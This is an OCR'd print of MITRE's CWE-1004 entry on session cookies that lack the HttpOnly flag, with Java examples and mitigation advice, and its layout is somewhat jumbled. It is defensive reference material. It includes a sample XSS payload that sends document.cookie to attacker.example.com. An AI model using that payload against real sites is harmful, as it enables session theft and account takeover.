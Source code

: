 3/7/24, 2:41 PM CWE - CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag (4.14)
https://cwe.mitre.org/data/deﬁnitions/1004.html 1/3
Common W eakness Enumeration
A community-developed list of SW & HW weaknesses that can become
vulnerabilities
Home Search
CWE-1004: Sensitive Cookie W ithout 'HttpOnly' Flag
Weakness ID: 1004
Vulnerability Mapping: 
View customized information:
 Description
The product uses a cookie to store sensitive information, but the cookie is not marked with the HttpOnly flag.
 Extended Description
The HttpOnly flag directs compatible browsers to prevent client-side script from accessing cookies. Including the HttpOnly flag in the
Set-Cookie HTTP response header helps mitigate the risk associated with Cross-Site Scripting (XSS) where an attacker's script code
might attempt to read the contents of a cookie and exfiltrate information obtained. When set, browsers that support the flag will not
reveal the contents of the cookie to a third party via client-side script executed via XSS.
 Relationships
 Relevant to the view "Research Concepts" (CWE-1000)
Nature Type ID Name
ChildOf 732 Incorrect Permission Assignment for Critical Resource
 Background Details
An HTTP cookie is a small piece of data attributed to a specific website and stored on the user's computer by the user's web browser .
This data can be leveraged for a variety of purposes including saving information entered into form fields, recording user activity , and
for authentication purposes. Cookies used to save or record information generated by the user are accessed and modified by script
code embedded in a web page. While cookies used for authentication are created by the website's server and sent to the user to be
attached to future requests. These authentication cookies are often not meant to be accessed by the web page sent to the user , and
are instead just supposed to be attached to future requests to verify authentication details.
 Modes Of Introduction
Phase Note
Implementation
 Applicable Platforms
Languages
Class: Not Language-Specific (Undetermined Prevalence)
Technologies
Class: W eb Based (Undetermined Prevalence)
 Common Consequences
Scope Impact Likelihood
ConfidentialityTechnical Impact: Read Application Data
If the HttpOnly flag is not set, then sensitive information stored in the cookie may be exposed to
unintended parties.
IntegrityTechnical Impact: Gain Privileges or Assume Identity
If the cookie in question is an authentication cookie, then not setting the HttpOnly flag may allow an
adversary to steal authentication data (e.g., a session ID) and assume the identity of the user .
 Likelihood Of Exploit
Medium
 Demonstrative Examples
Example 1
In this example, a cookie is used to store a session ID for a client's interaction with a website. The intention is that the cookie will be
sent to the website with each request made by the client.
The snippet of code below establishes a new cookie to hold the sessionID.About ▼ CWE List ▼ Mapping ▼ Top-N Lists ▼ Community ▼ News ▼
ALLOWED
Abstraction: Variant
Conceptual OperationalMapping
FriendlyComplete Custom
(bad code) Example Language: Java 3/7/24, 2:41 PM CWE - CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag (4.14)
https://cwe.mitre.org/data/deﬁnitions/1004.html 2/3The HttpOnly flag is not set for the cookie. An attacker who can perform XSS could insert malicious script such as:
When the client loads and executes this script, it makes a request to the attacker-controlled web site. The attacker can then log the
request and steal the cookie.
To mitigate the risk, use the setHttpOnly(true) method.
 Observed Examples
Reference Description
CVE-2022-24045 Web application for a room automation system has client-side Javascript that sets a sensitive cookie
without the HTTPOnly security attribute, allowing the cookie to be accessed.
CVE-2014-3852 CMS written in Python does not include the HTTPOnly flag in a Set-Cookie header , allowing remote
attackers to obtain potentially sensitive information via script access to this cookie.
CVE-2015-4138 Appliance for managing encrypted communications does not use HttpOnly flag.
 Potential Mitigations
Phase: Implementation
Leverage the HttpOnly flag when setting a sensitive cookie in a response.
Effectiveness: High
Note: While this mitigation is ef fective for protecting cookies from a browser's own scripting engine, third-party components or
plugins may have their own engines that allow access to cookies. Attackers might also be able to use XMLHTTPResponse to
read the headers directly and obtain the cookie.
 Detection Methods
Automated Static Analysis
Automated static analysis, commonly referred to as Static Application Security Testing (SAST), can find some instances of this
weakness by analyzing source code (or binary/compiled code) without having to execute it. Typically , this is done by building a
model of data flow and control flow , then searching for potentially-vulnerable patterns that connect "sources" (origins of input)
with "sinks" (destinations where the data interacts with external components, a lower layer such as the OS, etc.)
Effectiveness: High
 Memberships
Nature Type ID Name
MemberOf 1349 OWASP Top Ten 2021 Category A05:2021 - Security Misconfiguration
MemberOf 1396 Comprehensive Categorization: Access Control
 Vulnerability Mapping Notes
Usage: ALLOWED (this CWE ID could be used to map to real-world vulnerabilities)
Reason: Acceptable-Use
Rationale:
This CWE entry is at the V ariant level of abstraction, which is a preferred level of abstraction for mapping to the root causes of
vulnerabilities.
Comments:
Carefully read both the name and description to ensure that this mapping is an appropriate fit. Do not try to 'force' a mapping to a
lower-level Base/V ariant simply to comply with this preferred level of abstraction.
 References
[REF-2] OW ASP. "HttpOnly". < https://owasp.org/www-community/HttpOnly >. URL validated: 2023-04-07 .
String sessionID = generateSessionId();
Cookie c = new Cookie("session\_id", sessionID);
response.addCookie(c);
(attack code) Example Language: JavaScript 
document.write('![](http://attacker.example.com/collect-cookies?cookie=' + document.cookie . ')'
(good code) Example Language: Java 
String sessionID = generateSessionId();
Cookie c = new Cookie("session\_id", sessionID);
c.setHttpOnly(true);
response.addCookie(c);3/7/24, 2:41 PM CWE - CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag (4.14)
https://cwe.mitre.org/data/deﬁnitions/1004.html 3/3[REF-3] Michael Howard. "Some Bad News and Some Good News". 2002. < https://learn.microsoft.com/en-us/previous-
versions/ms972826(v=msdn.10)?redirectedfrom=MSDN >. URL validated: 2023-04-07 .
[REF-4] Troy Hunt. "C is for cookie, H is for hacker - understanding HTTP only and Secure cookies". 2013-03-26.
.
[REF-5] Microsoft. "Mitigating Cross-site Scripting With HTTP-only Cookies". < https://learn.microsoft.com/en-us/previous-
versions//ms533046(v=vs.85)?redirectedfrom=MSDN >. URL validated: 2023-04-07 .
 Content History
 Submissions
Submission Date Submitter Organization
2017-01-02
(CWE 2.10, 2017-01-19)CWE Content Team MITRE
 Modifications
